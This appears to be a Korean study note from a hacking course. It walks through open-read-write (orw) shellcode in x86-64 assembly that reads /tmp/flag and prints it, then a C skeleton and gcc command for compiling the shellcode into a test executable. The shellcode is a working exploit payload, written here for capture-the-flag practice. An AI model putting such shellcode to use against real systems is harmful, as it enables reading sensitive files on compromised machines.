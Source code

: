  # 완성된 orw셸코드
 ~~~
;Name: orw.S

push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)

mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)

mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
~~~

# 셸코드 사용해보기

  - 우리가 만든 셸코드인 orw.s 파일은 아스키로 작성된 어셈블리 코드이다. 이를 기계어로 치환하면 CPU가 이해할 수는 있으나, ELF형식이 아니므로 리눅스에서 실행될 수 없다.

  - ELF란 리눅스에서 사용되는 표준 실행 파일이다. 일단 해킹을 배울 떄 리눅스 환경을 선호한다. (자세한 이유는 나중에 더 공부해보자.) orw.s파일을 ELF형식으로 바꾸기 위해서는 gcc 컴파일러를 통해 어셈블리 코드를 기계어로 변환하고, 이를 ELF형식의 실행 파일로 만들어줘야 한다.


  1) 스켈레톤 코드 + 셸코드
~~~
// File name: sh-skeleton.c
// Compile Option: gcc -o sh-skeleton sh-skeleton.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "Input your shellcode here.\n"
    "Each line of your shellcode should be\n"
    "seperated by '\n'\n"

    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c	# rax = sys_exit\n"
    "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
~~~
   